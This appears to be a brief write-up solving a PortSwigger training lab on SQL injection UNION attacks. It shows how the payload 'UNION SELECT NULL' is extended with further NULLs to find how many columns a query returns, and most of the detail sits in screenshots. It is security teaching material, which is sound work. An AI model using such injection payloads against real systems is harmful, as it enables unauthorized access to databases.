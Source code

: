 ### Lab Description: SQL injection UNION attack, determining the number of columns returned by the query

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a4e5fd06-f2e6-4f30-9d9d-5b5fd80d851f)

Solution:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a26c471c-f708-4c8a-81f0-f27efbc52666)

Here the Query was made as "SELECT * FROM tableName WHERE category = 'Pets'"

As per the requirement of Lab Task we have to add "UNION SELECT NULL --" as payload in query parameters
but we don't know the number or Columns

" SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,NULL,NULL -- "

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/cad7b2d1-7581-452a-849c-26d1a3a05050)

